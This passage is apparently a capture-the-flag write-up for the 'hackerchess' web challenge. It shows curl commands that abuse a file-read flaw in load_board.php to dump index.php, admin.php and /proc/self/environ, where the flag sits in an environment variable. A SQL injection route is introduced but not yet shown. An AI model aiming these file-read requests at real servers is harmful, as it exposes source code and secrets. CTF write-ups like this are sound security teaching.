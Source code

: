 > *Note*: From here on, there's multiple solutions, so for the sake of completeness, I'll be showing all of them.

### Solution 1 (environment variable exfiltration)

We know that the actual chess website is in `index.php`, so let's try getting that.

```bash
curl https://hackerchess-web.h4ck.ctfcompetition.com/load_board.php -d "filename=index.php"
```

{% figure(src="ep0ch1-indexphp.png", alt="The output of curl.") %}
    The output of curl. We can see that the server is sending us the contents of index.php!
{% end %}

Inspecting this file for the flag yields the following:

```php
if ($chess->inCheckmate()) {
    if ($chess->turn != "b") {
        echo '<h1>You lost! Game Over!</h1>';
    } else {
        echo "<h1>ZOMG How did you defeat my AI :(. You definitely cheated. Here's your flag: ". getenv('REDIRECT_FLAG') . "</h1>";
    }
}
```

Looks like the flag is in the `REDIRECT_FLAG` environment variable. Let's try to get that. We can use the same `curl` command as before, but this time we'll try to get the environment variables. (On Linux systems, environment variables are stored in `/proc/self/environ`.)

```bash
curl https://hackerchess-web.h4ck.ctfcompetition.com/load_board.php -d "filename=/proc/self/environ"
```

{% figure(src="ep0ch1-environ.png", alt="The output of curl.") %}
    The output of curl. We can see that the server is sending us the contents of /proc/self/environ!
{% end %}

Inspecting the output, we can see that the flag is in the `REDIRECT_FLAG` variable. (I won't be directly sharing the flag here to stop indexing bots from finding it.)

### Solution 2 (SQL injection)

This was the solution I found first, and it's (in my opinion) a bit more fun. We can use SQL injection to get the flag.

Let's take a look at `admin.php`:

```bash
curl https://hackerchess-web.h4ck.ctfcompetition.com/load_board.php -d "filename=admin.php"
```

{% figure(src="ep0ch1-adminphp.png", alt="The output of curl.") %}
    The output of curl, showing us the contents of admin.php.
{% end %}

